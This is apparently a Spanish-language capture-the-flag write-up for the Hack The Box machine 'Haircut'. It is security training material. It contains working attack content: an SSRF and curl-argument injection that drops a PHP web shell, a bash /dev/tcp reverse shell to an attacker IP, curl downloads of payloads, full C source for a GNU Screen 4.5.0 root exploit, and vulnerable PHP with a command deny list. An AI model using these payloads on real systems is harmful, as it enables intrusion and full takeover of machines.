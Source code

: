 # 10.10.10.24 - Haircut
![Haircut](https://user-images.githubusercontent.com/96772264/208973144-27038fbf-2387-42d5-bdbb-77d8a5a056ad.png)

------------
# Part 1: Enumeración

Puertos abiertos 22(shh) y 80(http)

```console
└─$ whatweb http://10.10.10.24
HTTPServer[Ubuntu Linux][nginx/1.10.0 (Ubuntu)], IP[10.10.10.24], Title[HTB Hairdresser]

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 'http://10.10.10.24/FUZZ'
000000150:   301        7 L      13 W       194 Ch      "uploads"

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 'http://10.10.10.24/FUZZ.php'
000025043:   200        19 L     41 W       446 Ch      "exposed"
```
El fuzzing por subdominios no resuelve.
![haircut1](https://user-images.githubusercontent.com/96772264/208973173-5881514e-4505-4294-ace5-3cb9626e975a.PNG)

**/uploads** -> 403 forbidden
**/exposed.php**

Hay una web que dice que que así "Pon la dirección de la peluquería que te gustaria visitar. Por ejemplo: http://localhost/test.html"
![haircut2](https://user-images.githubusercontent.com/96772264/208973183-86102b83-a65a-4140-b60a-4f342f239fcb.PNG)

------------
# Part 2: SSRF

Hay un panel que pone "http://localhost/test.html" y en un iframe nos muestra una foto.
Si por curiosidad buscamos "http://10.10.10.24/test.html" sale la misma foto.

En un iframe la web muestra contenido propio, (es como la máquina forge). Encima al ser localhost, se hace
peticiones a si mismo, por lo que puede mostrar contenido retringido al exterior. Esto se llama "SSRF".

La peticion es ```/POST a /exposed.php con los parametros formurl=http://localhost/test.html&submit=Go```

## Internal Port Discovery

Por http se puede acceder a puertos internos -> http://IP:puerto
```console
└─$ wfuzz -X POST --hw=83,95 -z range,0000-9999 -d "formurl=http://localhost:FUZZ&submit=Go" http://10.10.10.24/exposed.php
000000023:   200        25 L     97 W       898 Ch      "0022"
000000081:   200        29 L     100 W      932 Ch      "0080"
000003307:   200        22 L     92 W       909 Ch      "3306"
```
El puerto 3306 es sql, por lo que habrá una base de datos corriendo en algun lado.

## Fuzzing de subdominios
```console
└─$ wfuzz -X POST -w $(locate subdomains-top1million-5000.txt) -d "formurl=http://FUZZ.localhost&submit=Go" http://10.10.10.24/exposed.php
000000007:   200        22 L     319 W      2340 Ch     "webdisk"
000000003:   200        22 L     319 W      2336 Ch     "ftp"
000000001:   200        22 L     319 W      2336 Ch     "www"
000000006:   200        22 L     307 W      2258 Ch     "smtp"
000000008:   200        22 L     307 W      2257 Ch     "pop"
000000015:   200        22 L     319 W      2335 Ch     "ns"
000000023:   200        22 L     319 W      2338 Ch     "forum"
000000039:   200        22 L     319 W      2337 Ch     "dns2"
000000041:   200        22 L     307 W      2258 Ch     "dns1"
000000038:   200        22 L     307 W      2258 Ch     "demo"
```

Aun así probando con cualquiera de estos se queda colgado.

```console
└─$ wfuzz -X POST --hw=98,53,110 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -d "formurl=http://localhost/FUZZ/&submit=Go" http://10.10.10.24/exposed.php
000000150:   200        29 L     96 W       966 Ch      "uploads"
000002010:   200        19 L     43 W       471 Ch      "'"  
```
------------
# Part 3: RFI

Si en vez de apuntar al localhost, apuntamos a nuestro servidor ```sudo python3 -m http.server 80``` -> ```http://10.10.14.16```

Intentamos subir un index.html pero no lo ejecuta
```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'
```
Como el comando que está ejecutando el servidor es un "curl" (se ve por "% Total % Received % Xferd Average...")

```<?php system($_REQUEST['cmd']); ?>```

Hay una opción en curl para depositar archivos **-o**:
```http://10.10.14.16/cmd.php -o /var/www/html/uploads/cmd.php```

```console
└─$ curl -s "http://10.10.10.24/uploads/cmd.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

└─$ curl -s "http://10.10.10.24/uploads/cmd.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.16/443 0>%261'"
```
------------
# Part 4: En el sistema

Recibimos una shell por el puerto 443.

- Usuarios del Sistema ->  root maria
- SUIDs -> /usr/bin/screen-4.5.0

Hay un exploit para eso:

1. Crea la librería " ./libhax.so"
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
```console
└─$ gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c 
```

1. Crea el binario rootshell (spawnea una sh manteniendo privilegios, una especie de "bash -p")
```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```
```console
└─$ gcc -o ./rootshell ./rootshell.c
```

Una vez eso se siguen los pasos del exploit
```console
www-data@haircut:/tmp$ curl http://10.10.14.16/libhax.so -O
www-data@haircut:/tmp$ curl http://10.10.14.16/rootshell -O
www-data@haircut:/tmp$ cd /etc
www-data@haircut:/etc$ umask 000
www-data@haircut:/etc$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
www-data@haircut:/tmp$ screen -ls
www-data@haircut:/tmp$ ./rootshell
# whoami
root
```

------------
# Extra

El código que hacia el curl
```php
<?php
	if(isset($_POST['formurl'])){
		echo "<p>Requesting Site...</p>";
		$userurl=$_POST['formurl'];   // $usrurl es lo que pasa el usaurio por el panel.
		$naughtyurl=0;			// Flag que ve si la url es "sucia"
		$disallowed=array('%','!','|',';','python','nc','perl','bash','&','#','{','}','[',']'); // Caracteres especiales
		foreach($disallowed as $naughty){ 
			if(strpos($userurl,$naughty) !==false){   // Si cada uno de esos caracteres sale en la url, no ejecutamos nada.
				echo $naughty.' is not a good thing to put in a URL';
				$naughtyurl=1;}}
		if($naughtyurl==0){    // Si pasa esta vaga sanitización...
			echo shell_exec("curl ".$userurl." 2>&1");}}    // El sistema le hace un curl
?>
```
Lo de los caracteres es para que no se pueda ejecutar comandos tipo ```curl http://localhost/test.html; whoami```
